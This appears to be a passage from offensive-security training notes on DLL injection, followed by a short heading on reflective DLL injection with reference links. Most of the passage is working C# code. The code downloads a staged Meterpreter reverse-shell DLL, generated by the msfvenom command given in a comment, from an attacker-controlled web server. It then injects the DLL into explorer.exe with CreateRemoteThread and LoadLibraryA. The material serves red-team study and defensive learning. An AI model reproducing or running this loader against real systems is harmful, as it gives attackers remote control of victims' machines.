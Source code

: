 ```cs
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            String dllName = "C:\\Windows\\Temp\\staged_shell.dll";

            // msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.123 LPORT=443 -f dll -o staged_shell.dll
            WebClient wc = new WebClient();
            wc.DownloadFile("http://10.0.0.123/staged_shell.dll", dllName);

            // OpenProcess called on the target process (explorer.exe) 
            Process[] expProc = Process.GetProcessesByName("explorer"); // Change the Process Name
            int pid = expProc[0].Id;
            IntPtr processHandle = OpenProcess(0x001F0FFF, false, pid);

            // Allocate the virtual memory 
            IntPtr allocMemAddress = VirtualAllocEx(processHandle, IntPtr.Zero, 0x1000, 0x3000, 0x4);

            //  copying the name of the DLL into the target process' memory ("explorer.exe")
            IntPtr bytesWritten;
            Boolean res =  WriteProcessMemory(processHandle, allocMemAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out bytesWritten);

			// determine the "LoadLibrary" memory address
            IntPtr loadLibAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            
            // create a remote thread
            IntPtr hThread = CreateRemoteThread(processHandle, IntPtr.Zero, 0, loadLibAddr, allocMemAddress, 0, IntPtr.Zero);
        }
    }
}
```

Compile and execute. It's will fetch the `staged_shell` DLL from the Web Server (Apache) and give back the connection.

This basic method DLL Injection does write the DLL to disk.

# 5.3 Reflective DLL Injection

References:
- https://www.ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection
- https://www.ired.team/offensive-security/code-injection-process-injection/reflective-shellcode-dll-injection
- https://github.com/stephenfewer/ReflectiveDLLInjection
